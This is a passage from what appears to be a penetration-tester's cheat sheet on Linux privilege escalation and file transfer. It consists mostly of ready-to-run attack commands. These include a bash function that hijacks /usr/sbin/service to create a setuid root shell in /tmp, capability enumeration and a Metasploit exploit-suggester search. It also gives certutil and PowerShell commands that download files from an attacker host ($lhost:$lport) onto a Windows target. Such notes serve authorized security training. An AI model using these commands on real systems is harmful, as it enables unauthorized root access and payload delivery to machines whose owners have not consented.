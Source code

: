 Now, let's run our binary and the we get root!

###### Malicious function (when we have a service has a full path)

Other way is creating a malicious function (for example /usr/sbin/service):

```shell
function /usr/sbin/service() {cp /bin/bash /tmp/bashroot && chmod +s /tmp/bashroot && /tmp/bashroot -p;}
```

Now let's export it:
```
export -f /usr/sbin/service
```

Now, call your suid binary and you get a root!

#### Capabilities

Check for capabilities:
```
getcap -r / 2>/dev/null
```

#### Kernel Exploits

[lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

##### Dirty Pipe

##### Polkit

# Metasploit

Privilege Escalation
```
search local_exploit_suggester
```
NOTE: Remember to use migrate to move the execution of the meterpreter payload.

# Exfiltration Data

## Windows

CMD
```
certutil -urlcache -split -f http://$lhost:$lport/file.ext file.ext
```

Powershell
```
iwr -uri http://$lhost:$lport/file.ext -OutFile file.ext
(New-Object Net.WebClient).DownloadFile("http://$lhost:$lport/file.ext","C:\path\to\file.ext")
Invoke-WebRequest "http://$lhost:$lport/file.ext" -OutFile "file.ext"
```

